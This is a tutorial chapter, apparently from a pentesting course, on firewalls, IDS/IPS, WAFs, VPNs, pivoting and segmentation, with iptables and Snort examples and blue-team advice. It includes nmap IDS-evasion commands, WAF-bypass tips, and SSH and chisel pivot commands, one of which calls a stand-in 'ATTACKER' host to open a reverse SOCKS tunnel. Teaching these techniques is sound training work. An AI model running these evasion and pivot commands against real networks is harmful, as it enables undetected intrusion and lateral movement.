




This is Chapter 21 of the series. So far you've learned how traffic is *built* and *moved*; now you'll learn how it's **controlled and inspected**. Between an attacker and a target sit firewalls, intrusion detection/prevention systems, proxies and segmentation boundaries — the defensive fabric of every real network. Understanding these devices is doubly essential: as an attacker you must recognise them, fingerprint them, and evade or tunnel around them; as a defender you must configure and monitor them. This chapter builds each control from scratch, shows you real `iptables`/`nftables` and Snort rules, and covers the evasion and pivoting techniques (VPNs, proxies, tunnels) that route your traffic where it needs to go.

## The Defensive Stack: What Sits Between You and the Target

Picture a packet approaching an organisation. It may pass a perimeter **firewall** (does policy allow this?), an **IDS/IPS** (does this look malicious?), a **proxy** or **WAF** (is the application-layer content OK?), and internal **segmentation** boundaries (is this host even allowed to talk to that one?). Each is a distinct control operating at a specific layer — which is exactly why Chapter 12's layer model matters here.



The key mental model: **a control can only act on what it can see.** A Layer 3/4 firewall reads IPs and ports but not the SQL inside a request; a WAF reads the HTTP but may be blind to encrypted or smuggled content; an IDS sees payloads only if traffic isn't encrypted or evaded. Attack and defence are both about matching (or mismatching) the control to the layer.

## Firewalls: Filtering by Policy

A **firewall** enforces an access-control policy on traffic, permitting or denying based on rules. They evolved through generations:

| Generation | Inspects | Example |
|---|---|---|
| **Packet filter (stateless)** | Each packet's IP/port/flags in isolation | classic ACLs |
| **Stateful** | Connection *state* (tracks the handshake, allows return traffic) | iptables/nftables, pf |
| **Application / proxy** | Full Layer 7 content | WAF, proxy firewall |
| **Next-Gen (NGFW)** | L3–L7 + IPS + app-ID + TLS inspection + threat intel | Palo Alto, Fortinet |

**Stateless** filters judge each packet alone — simple and fast but blind to context (they can't tell a legitimate reply from a crafted ACK, which is why ACK scans map them). **Stateful** firewalls track connections in a state table, so they automatically allow return traffic for connections you initiated and drop unsolicited packets — the dominant type. **NGFWs** fold in IPS, application identification and even TLS decryption.

The default posture matters enormously: a **default-deny** firewall blocks everything not explicitly allowed (secure); **default-allow** permits everything not explicitly blocked (dangerous). Good policy is default-deny inbound, with tightly scoped allows.

## Hands-On: Linux Firewalling with iptables and nftables

Linux's built-in firewall (netfilter) is configured via `iptables` (classic) or `nftables` (modern replacement). Every pentester must read these, because compromised hosts and targets run them.

`iptables` organises rules into **chains** (`INPUT` for traffic to the host, `OUTPUT` from it, `FORWARD` through it) with a default **policy** and per-rule **targets** (`ACCEPT`, `DROP`, `REJECT`).

```bash
# View current rules (with packet counts and line numbers)
sudo iptables -L -n -v --line-numbers

# A minimal default-deny host firewall:
sudo iptables -P INPUT DROP                 # default deny inbound
sudo iptables -A INPUT -i lo -j ACCEPT      # allow loopback
sudo iptables -A INPUT -m state --state ESTABLISHED,RELATED -j ACCEPT  # stateful: allow replies
sudo iptables -A INPUT -p tcp --dport 22 -j ACCEPT   # allow SSH
sudo iptables -A INPUT -p tcp --dport 443 -j ACCEPT  # allow HTTPS
# everything else hits the DROP policy
```

Note the **stateful** rule (`--state ESTABLISHED,RELATED`): without it, replies to your own outbound connections would be blocked. `DROP` (silent) vs `REJECT` (sends an ICMP/RST back) is a recon-relevant choice — silent DROP produces Nmap `filtered`, REJECT produces `closed`.

The modern equivalent in `nftables`:

```bash
sudo nft list ruleset                        # view
sudo nft add table inet filter
sudo nft 'add chain inet filter input { type filter hook input priority 0 ; policy drop ; }'
sudo nft add rule inet filter input ct state established,related accept
sudo nft add rule inet filter input tcp dport {22,443} accept
```

Higher-level front-ends (`ufw`, `firewalld`) wrap these for convenience (`sudo ufw allow 22/tcp`), but they compile down to netfilter underneath.

## IDS vs IPS: Detecting and Blocking Intrusions

An **IDS (Intrusion Detection System)** watches traffic and **alerts** on suspicious activity (passive, out-of-band, often via a SPAN/mirror port). An **IPS (Intrusion Prevention System)** sits **inline** and can **block** the traffic it flags (active). The trade-off: IDS never disrupts legitimate traffic but only warns; IPS can stop attacks in real time but a false positive drops real users.

Detection methods:

- **Signature-based** — match traffic against known-bad patterns (like antivirus). Great for known attacks, blind to novel ones. (Snort/Suricata rules.)
- **Anomaly-based** — learn a baseline of "normal" and flag deviations. Catches novel attacks but noisier (false positives).
- **Protocol/behavioural** — validate protocol conformance and behaviour (Zeek).



The three big open-source engines: **Snort** and **Suricata** (signature IDS/IPS) and **Zeek** (protocol/behaviour analysis, superb logs). A Snort/Suricata rule reads almost like English:

```text
alert tcp any any -> $HOME_NET 22 (msg:"SSH brute force possible";
  flow:to_server; threshold:type both, track by_src, count 5, seconds 60;
  sid:1000001;)

alert tcp any any -> $HOME_NET any (msg:"Nmap NULL scan detected";
  flags:0; sid:1000002;)
```

Read them: *protocol, source, direction, destination/port, then options* (message, matching conditions, thresholds, rule ID). The second rule fires on a TCP packet with **no flags set** — exactly the NULL scan from Chapter 16. Understanding scan mechanics is what lets you both write and evade these rules.

## Evasion: Getting Past Firewalls and IDS/IPS (Authorized Testing)

Because controls act on what they can see, evasion means changing what they see. Nmap and friends provide the toolkit (for authorized engagements only):

| Technique | Nmap/tool | Idea |
|---|---|---|
| **Fragmentation** | `nmap -f` / `--mtu` | Split probes so simple inspectors miss the whole |
| **Decoys** | `nmap -D RND:10` | Hide your real IP among fake sources |
| **Source port spoof** | `nmap --source-port 53` | Masquerade as DNS/allowed traffic |
| **Timing/slow** | `nmap -T1`/`--scan-delay` | Stay under rate/threshold-based detection |
| **Idle/zombie scan** | `nmap -sI zombie` | Scan via a third host — never send from your IP |
| **Payload/encoding** | WAF bypass, `--data-length` | Mutate content to dodge signatures |
| **Non-standard ports/tunneling** | see below | Ride allowed protocols (443, 53) |

```bash
sudo nmap -sS -f -D RND:5 --source-port 53 -T2 10.10.10.10   # stacked evasion (lab)
sudo nmap -sS --scan-delay 2s -p 22,80,443 target            # beat threshold rules
```

The most reliable "evasion" is often **blending in**: use port 443/53, encrypt your traffic (IDS can't signature-match ciphertext), and go slow. This is exactly why defenders deploy TLS inspection and anomaly detection — and why encrypted C2 over 443 is a red-team staple.

## Proxies and WAFs

A **proxy** is an intermediary that relays traffic:

- **Forward proxy** — sits in front of *clients*, forwarding their outbound requests (corporate web proxy, content filter, or your `proxychains`/`Burp` on the attack side).
- **Reverse proxy** — sits in front of *servers*, receiving client requests and forwarding to backends (load balancing, TLS termination, caching, and **WAF**).

A **WAF (Web Application Firewall)** is a Layer 7 reverse proxy that inspects HTTP for attack patterns (SQLi, XSS) and blocks them — the CDN edge (Cloudflare/Akamai) from Chapter 11 often *is* a WAF. WAFs are signature/rule based (ModSecurity + OWASP Core Rule Set) or ML-assisted, and — like all signature systems — bypassable via encoding, case tricks, and payload mutation (a whole AppSec chapter). For recon, `wafw00f` fingerprints which WAF fronts a target:

```bash
wafw00f https://example.com          # identify the WAF product
```

Knowing a WAF is present (and which one) shapes your whole approach: find the **origin IP** to bypass it (Chapter 11), or craft payloads its ruleset misses.

## VPNs: Encrypted Tunnels

A **VPN (Virtual Private Network)** creates an encrypted tunnel across an untrusted network, so remote hosts behave as if on a private LAN. Uses: secure remote access, site-to-site links, privacy, and — for hackers — reaching an internal network during an engagement or masking your source. Common technologies:

| VPN | Layer | Notes |
|---|---|---|
| **IPsec** | 3 | Standards-based, site-to-site + remote; ESP/AH, IKE key exchange |
| **OpenVPN** | tunnels L3 over TLS/UDP | Flexible, widely used |
| **WireGuard** | 3 | Modern, fast, tiny codebase, UDP |
| **SSL/TLS VPN** | 7-ish | Browser/portal-based remote access |



For pentesters, VPNs cut both ways: engagements often provide a **client VPN** into the target's internal network (your foothold), and VPN gateways themselves are targets (vulnerable VPN appliances — Pulse Secure, Fortinet, Citrix — have been the initial access vector in countless real breaches). VPNs also underpin **pivoting**, blending into the pure-tunneling tools next.

## Proxying & Tunneling for Pivoting

When a firewall blocks direct access to an internal network, you route your tools *through* a compromised host. This ties back to NAT/routing (Chapter 15) — the target usually allows *outbound* connections, so you ride those out and tunnel back in.

- **SSH tunneling** — `ssh -L` (local forward), `-R` (remote forward), `-D` (dynamic SOCKS proxy). The classic.
- **proxychains** — forces any tool through a SOCKS/HTTP proxy (`proxychains nmap ...`).
- **chisel / ligolo-ng / sshuttle** — modern pivoting over HTTP/TCP, ideal when only outbound 80/443 is allowed.

```bash
# Turn a compromised host into a SOCKS proxy, then run tools through it:
ssh -D 1080 user@pivot-host            # dynamic SOCKS proxy on :1080
# /etc/proxychains4.conf -> socks5 127.0.0.1 1080
proxychains nmap -sT -Pn 10.10.20.5    # scan the internal net via the pivot

# chisel reverse SOCKS (when only outbound is allowed):
# attacker:  ./chisel server -p 8080 --reverse
# target:    ./chisel client ATTACKER:8080 R:socks
```

These get a dedicated chapter in the Network Attacks track; here the point is *why* they exist — firewalls block direct inbound, so you tunnel through allowed outbound paths.

## Network Segmentation: Containing the Blast Radius

**Segmentation** divides a network into isolated zones (via VLANs from Chapter 14, subnets/routing from Chapter 15, and firewall ACLs) so that compromising one zone doesn't grant access to others. Classic zones: **DMZ** (internet-facing servers), internal user LAN, server/database tier, and a management network. **Microsegmentation** takes this to the extreme — policy per-workload, the foundation of **zero trust** ("never trust, always verify," no implicit trust from network location).



Why it's the number-one mitigation against lateral movement: a flat network lets a single foothold reach everything (how WannaCry and the Target breach spread), while good segmentation forces an attacker to breach a policy boundary at every step — each an opportunity to detect and stop them. For attackers, reading the segmentation (from a pivot's routing/ARP tables) reveals what's reachable; for defenders, tight inter-zone rules + monitoring the choke points is the goal.

## Hands-On Lab: Build, Probe, and Detect

### Step 1 — Build a host firewall and observe its effect on scans

```bash
# On a lab target VM: allow only SSH, drop the rest silently
sudo iptables -P INPUT DROP
sudo iptables -A INPUT -m state --state ESTABLISHED,RELATED -j ACCEPT
sudo iptables -A INPUT -p tcp --dport 22 -j ACCEPT
# From the attacker VM, scan and read the difference:
nmap -sS -p 22,80,443 <target>
# 22/tcp open  ssh
# 80/tcp filtered http     <- DROP = no reply = "filtered"
# 443/tcp filtered https
```

Switch the drop to `REJECT` and rescan — the ports now show `closed` (RST returned). You've just seen how firewall policy directly shapes recon output (Chapter 16's filtered vs closed, live).

### Step 2 — Map a firewall with an ACK scan

```bash
sudo nmap -sA -p 1-1000 <target>       # unfiltered = reachable, filtered = firewalled
```

The ACK scan doesn't find open ports — it tells you *which ports a stateful firewall is guarding*, mapping the ruleset.

### Step 3 — Run Snort/Suricata and trip a rule

```bash
sudo apt install -y snort              # or suricata
# Add the NULL-scan rule from earlier to local.rules, then:
sudo snort -q -A console -i eth0 -c /etc/snort/snort.conf &
sudo nmap -sN <target>                 # NULL scan
# Snort console prints: [**] Nmap NULL scan detected [**]
```

Watching your own scan trigger an alert makes the detection/evasion cat-and-mouse concrete. Now retry with `-T1`/`-f` and see which rules stay quiet.

### Step 4 — Fingerprint perimeter controls

```bash
wafw00f https://target                 # which WAF?
nmap -sV --script firewall-bypass <target>
curl -I https://target                 # Server/Via headers hint at proxies/CDN
```

## Common Pitfalls & How to Overcome Them

- **Forgetting the stateful ESTABLISHED rule** in iptables — you lock yourself out or block your own replies. Always allow `ESTABLISHED,RELATED` early.
- **Confusing DROP and REJECT** — DROP is silent (`filtered`, slows scans, stealthier), REJECT is polite (`closed`). Choose deliberately; read the difference in scans.
- **Assuming an IDS = an IPS.** IDS only alerts; if nothing's watching the alerts, it stops nothing. IPS blocks but risks false positives.
- **Treating a WAF as un-bypassable.** WAFs are signature/rule based and routinely bypassed (encoding, origin-IP discovery). Presence ≠ protection.
- **Believing VLANs/segmentation are foolproof.** Misconfig (Chapter 14 VLAN hopping) and overly permissive ACLs undermine them. Verify actual reachability, don't trust the diagram.
- **Evading loudly.** Stacked, aggressive evasion can itself trip anomaly detection. On real engagements, slow and blended beats clever and noisy — and always stay in authorized scope.

> **Memory hook** — **Firewall = allow/deny by policy (L3/4). IDS = alert. IPS = block (inline). Proxy/WAF = inspect L7. Segmentation = contain.** Every control only acts on **what it can see** — so evasion is changing what it sees (fragment, encrypt, blend, tunnel).

## Real-World Application & Case Studies

- **VPN appliance breaches** — Pulse Secure (CVE-2019-11510), Fortinet (CVE-2018-13379), Citrix ADC (CVE-2019-19781) were mass-exploited as initial access into corporate networks; the perimeter device *was* the way in.
- **Flat-network worms** — WannaCry/NotPetya (2017) spread laterally because networks lacked segmentation; SMB across a flat LAN = catastrophe.
- **The Target breach (2013)** — attackers pivoted from a vendor's access to the payment network due to inadequate segmentation; the textbook case for zoning.
- **WAF bypasses** — countless disclosed bounty reports defeat Cloudflare/Akamai/ModSecurity via encoding or by finding the origin IP.
- **Zero-trust adoption** — post-breach, major orgs (and Google's BeyondCorp) moved from perimeter trust to per-request verification — the segmentation idea taken to its logical end.

> **Bug Bounty Angle** — These controls shape web-bounty work constantly. **WAF fingerprinting and bypass** (`wafw00f`, encoding, case/comment tricks, or finding the **origin IP** to skip the CDN/WAF entirely) is often the difference between a blocked payload and a critical. **Exposed management/VPN portals**, **default-allow cloud security groups** (`0.0.0.0/0`), and **misconfigured reverse proxies** (SSRF via `X-Forwarded` headers, request routing bugs) are directly reportable. Recognising that a target's protection is a CDN/WAF tells you to hunt for the unprotected origin and for header-based bypasses. Frame findings by what the control *should* have stopped and how you got past it (e.g. "WAF bypassed via double URL-encoding → SQLi reached the backend").

> **CTF Angle** — Firewalls/IDS appear in **network** and **pivoting** challenges: "scan the host behind the firewall" (evasion flags, or pivot via a foothold), "your payload is being blocked" (WAF bypass — encode it), and blue-team CTFs where you **write the Snort/Suricata rule** to catch an attack in a pcap. Reflexes: `nmap -sA` to map filtering, `-f`/`-D`/`--source-port` for evasion, `wafw00f` + encoding for WAFs, and `ssh -D`/`chisel`/`proxychains` to pivot past a boundary. Practice: TryHackMe "Firewalls"/"Snort"/"Wreath", HTB pro-labs (pivoting), and PortSwigger for WAF-style filter bypasses.

## Detection & Defense: Building the Fabric (Blue Team)

- **Default-deny everywhere** — inbound at the perimeter, and **egress filtering** outbound (this breaks reverse shells, C2, and tunneling that rely on the target connecting out). Egress control is one of the most underrated, highest-impact defences.
- **Segment aggressively** — DMZ/user/server/management zones with least-privilege ACLs between them; microsegmentation/zero-trust for critical assets. Contain the blast radius.
- **Deploy IDS/IPS with maintained rules** — Suricata/Snort with the ET/OWASP rulesets, Zeek for rich logs; and actually *watch* the alerts (an IDS no one reads is theatre).
- **Inspect what you can** — TLS inspection at the proxy where policy allows, so L7 controls aren't blind; and detect the evasion itself (tiny fragments, decoy floods, slow scans, odd source ports are all signatures).
- **Harden and patch perimeter devices** — VPN/firewall appliances are prime targets; patch fast, restrict management interfaces, enforce MFA.
- **Monitor the choke points** — the value of segmentation is that all inter-zone traffic funnels through a few enforcement points you can log and alert on.

The defender's core idea mirrors the attacker's: **control reachability and visibility.** Every boundary you add is both a barrier and a sensor.

## Final Revision / Summary

- **Firewalls** enforce allow/deny policy: stateless (per-packet) → stateful (tracks connections, allows replies) → NGFW (L3–L7 + IPS). Linux uses `iptables`/`nftables`; **default-deny** + a stateful `ESTABLISHED,RELATED` allow is the baseline. **DROP** = filtered/silent, **REJECT** = closed.
- **IDS alerts; IPS blocks (inline).** Detection is signature (Snort/Suricata — known attacks), anomaly (novel, noisier), or behavioural (Zeek). Rules read as protocol/source→dest + conditions.
- **Evasion** = change what the control sees: fragmentation (`-f`), decoys (`-D`), source-port spoof, slow timing, idle scan, encoding, and **blending into 443/53 + encryption**. Authorized testing only.
- **Proxies**: forward (in front of clients) vs reverse (in front of servers); **WAF** = L7 reverse proxy inspecting HTTP — fingerprint with `wafw00f`, bypass via encoding or origin-IP discovery.
- **VPNs** (IPsec/OpenVPN/WireGuard) = encrypted tunnels; both an engagement foothold and a high-value target. **Tunneling/pivoting** (`ssh -L/-R/-D`, proxychains, chisel/ligolo) rides allowed outbound to reach blocked internals.
- **Segmentation** (VLANs + subnets + ACLs; microsegmentation/zero-trust) contains blast radius — the top mitigation against lateral movement.
- Defence = **default-deny + egress filtering + aggressive segmentation + maintained IDS/IPS + patched perimeter + monitoring the choke points.**

## Cheat Sheet / Quick Reference

```bash
# FIREWALL (iptables)
sudo iptables -L -n -v --line-numbers            # view
sudo iptables -P INPUT DROP                       # default deny
sudo iptables -A INPUT -m state --state ESTABLISHED,RELATED -j ACCEPT
sudo iptables -A INPUT -p tcp --dport 22 -j ACCEPT
# nftables
sudo nft list ruleset
# front-ends
sudo ufw allow 22/tcp ; sudo ufw enable

# RECON / FINGERPRINT CONTROLS
nmap -sA -p 1-1000 target        # map firewall (unfiltered vs filtered)
wafw00f https://target           # identify WAF
nmap -sV --script firewall-bypass target

# EVASION (authorized)
sudo nmap -sS -f target                       # fragment
sudo nmap -sS -D RND:10 target                # decoys
sudo nmap -sS --source-port 53 target         # source-port trick
sudo nmap -sS -T1 --scan-delay 2s target      # slow / beat thresholds

# PIVOT / TUNNEL
ssh -D 1080 user@pivot        ;  proxychains nmap -sT -Pn 10.10.20.5
ssh -L 8080:internal:80 user@pivot
./chisel server -p 8080 --reverse   # attacker ;  ./chisel client ATK:8080 R:socks  # target

# IDS/IPS
sudo snort -A console -i eth0 -c /etc/snort/snort.conf
```

```text
CONTROL -> LAYER -> ROLE
 Firewall (stateless/stateful/NGFW) -> L3/4(-7) -> allow/deny by policy
 IDS -> L3-7 -> ALERT (passive)      IPS -> inline -> BLOCK (active)
 Proxy/WAF -> L7 -> inspect HTTP     VPN -> L3 -> encrypted tunnel
 Segmentation (VLAN+subnet+ACL) -> contain lateral movement
DROP=filtered(silent) | REJECT=closed(RST)
EVASION: fragment | decoy | src-port | slow | idle | encode | tunnel(443/53)
```

## Practice Labs & Resources

- **TryHackMe — "Firewalls", "IDS/IPS", "Snort", "Network Security Solutions"**: hands-on with the exact tools here.
- **TryHackMe — "Wreath"** and **HTB pro-labs (Dante/Zephyr)**: real pivoting through firewalled, segmented networks.
- **Suricata/Snort + Emerging Threats rules**: build a sensor, replay a pcap, and watch rules fire; then evade them.
- **iptables/nftables docs + "iptables essentials" cheat sheets**: read and write real firewall rules.
- **wafw00f + PortSwigger WAF-bypass labs**: fingerprint and defeat Layer 7 filtering.
- **Exercise** — on two lab VMs, build a default-deny iptables policy, scan it (observe filtered vs closed), stand up Suricata and trip a rule with a scan, then evade the rule with slow/fragmented options and confirm it goes quiet.

Next we close the Networking track wireless-side: **Wireless 802.11 fundamentals and network-analysis methodology** — frames, channels, monitor mode, the four-way handshake and packet capture, the groundwork for the Wi-Fi attacks in the Pentest track.
